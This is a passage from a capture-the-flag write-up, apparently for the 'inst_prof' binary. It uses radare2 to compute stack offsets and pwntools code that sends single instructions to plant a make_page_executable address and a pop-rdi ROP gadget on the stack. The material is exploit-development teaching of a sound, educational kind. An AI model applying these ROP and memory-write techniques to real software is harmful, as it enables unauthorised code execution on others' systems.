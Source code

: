 All right, lets go with the address of `sym.make_page_executable()` at `rsp + 40`

{{< highlight r2 >}}
$ r2 -Ad -R "stdin=\"`python -c 'print(\"\xc3\" * 8)'`\"" -c 'dcu main; db `/a call rbx~[0]`; dc; ds 2' inst_prof
[0x7fbf976e6005]> ? sym.make_page_executable - [rsp]
-248 0xffffffffffffff08 01777777777777777777410 17179869184.0G fffff000:0f08 -248 
"\b\xff\xff\xff\xff\xff\xff\xff" 1111111111111111111111111111111111111111111111111111111100001000 -248.0 
-248.000000f -248.000000
{{< /highlight >}}

All right, so it seems that `sym.make_page_executable() = [rsp] - 248`

{{< highlight python "hl_lines=10 11 12" >}}
# 2) rsp + 40 -> addr make executable
p.send(asm('mov r13, [rsp]'))               # "\x4c\x8b\x2c\x24"
inst = asm('dec r13') + ret
for i in range(248):
    p.send(inst)                            # "\x49\xff\xcd" + ret
p.send(asm('mov r15, rsp') + ret)           # "\x49\x89\xe7" + ret
inst = asm('inc r15') + ret
for i in range(40):
    p.send(inst)                            # "\x49\xff\xc7" + ret
p.send(asm('mov [r15], r13') + ret)         # "\x4d\x89\x2f" + ret
# :> pxq 8 @ rsp+24
# 0x7ffde1355c40  0x000055664a057a20                        z.JfU..
{{< /highlight >}}

`rsp + 32` .. `rsp + 40` .. and now we go for `rsp + 24`. We have to write there the address of the ROP 
gadget. Lets calculate the distance.

{{< highlight r2 "hl_lines=7" >}}
$ r2 -Ad -R "stdin=\"`python -c 'print(\"\xc3\" * 8)'`\"" -c 'dcu main; db `/a call rbx~[0]`;' inst_prof
[0x5590dcff1860]> dc
initializing prof...ready
hit breakpoint at: 5590dcff1b16
[0x5590dcff1b16]> ds 2
[0x7fd31ab7f005]> ? 0x5590dcff1bc3 - [rsp]
171 0xab 0253 171 0000:00ab 171 "\xab" 10101011 171.0 171.000000f 171.000000
{{< /highlight >}}

The ROP gadget is `0xab` bytes away from `[rsp]`, or the return address.

{{< highlight python "hl_lines=10" >}}
# 3) rsp + 24 -> ROP pop rdi + ret
p.send(asm('mov r13, [rsp]'))              # "\x4c\x8b\x2c\x24"
inst = asm('inc r13') + ret
for i in range(0xab):
    p.send(inst)                           # "\x49\xff\xc5" + ret
p.send(asm('mov r15, rsp') + ret)          # "\x49\x89\xe7" + ret
inst = asm('inc r15') + ret
for i in range(24):
    p.send(inst)                           # "\x49\xff\xc7" + ret
p.send(asm('mov [r15], r13') + ret)        # "\x4d\x89\x2f" + ret
# :> pxq 8 @ rsp+24